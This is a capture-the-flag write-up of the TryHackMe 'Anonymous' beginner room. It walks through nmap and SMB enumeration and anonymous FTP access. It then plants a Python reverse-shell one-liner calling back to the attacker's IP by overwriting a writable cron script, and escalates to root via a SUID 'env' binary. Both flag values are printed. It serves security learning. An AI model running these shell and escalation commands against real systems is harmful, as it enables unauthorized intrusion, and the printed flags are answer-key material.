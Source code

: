 ```yaml
---
title: "Anonymous - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.png
excerpt: "Writeup for the Anonymous on TryHackMe"
---
```


[TryHackMe | Anonymous](https://tryhackme.com/room/anonymous)

Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
Acquiring both flags will require some basic knowledge of Linux and
privilege escalation methods.

<div className="Image__Medium">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a6/Anonymous_emblem.svg/1024px-Anonymous_emblem.svg.png" alt="blog_image" />
</div>

For more information on Linux, check out [Learn Linux](https://tryhackme.com/room/zthlinux)

---

### #1 Enumerate the machine. How many ports are open?

```bash
➜  TryHackMe nmap -A -vv 10.10.131.140
```

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #2 What service is running on port 21?

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
```

```bash
ftp
```

### #3 What service is running on ports 139 and 445?

```bash
smb
```

### #4 There's a share on the user's computer. What's it called?

<div className="Image__Medium">
  <img src="https://imgur.com/4X6K5lM.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/5Aznrzp.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe smbclient -L  10.10.131.140
Enter WORKGROUP\kali password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
pics
```

### #5 user.txt

Let's go to the ftp using the anonymous login

```bash
➜  TryHackMe ftp 10.10.215.153
Connected to 10.10.215.153.
220 NamelessOne FTP Server!
Name (10.10.215.153:kali): anonymous
331 Please specify the password.
Password: no password there
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000           86 May 17 22:55 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
```

Let's put a reverse shell in the ftp shall we ? c:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

You can use whatever you want I will use the python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.228",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Rename the payload 'clean.sh' and put it in the ftp

```bash
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
226 bytes sent in 0.00 secs (2.3427 MB/s)
```

Now let's wait the ftp server to execute the payload

```bash
➜  TryHackMe nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.215.153] 37426
/bin/sh: 0: cant access tty; job control turned off
$ ls
pics
user.txt
$ cat user.txt
90d6f992585815ff991e68748c414740
```

### #6 root.txt

```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
$ ./env /bin/sh -p
/bin/sh: 4: ./env: not found
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
$ id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[All the suid shell on GTFOBins | GTFOBins](https://gtfobins.github.io/#+suid)

```bash
$ cd /root/
cd /root/
$ ls
ls
root.txt
$ cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
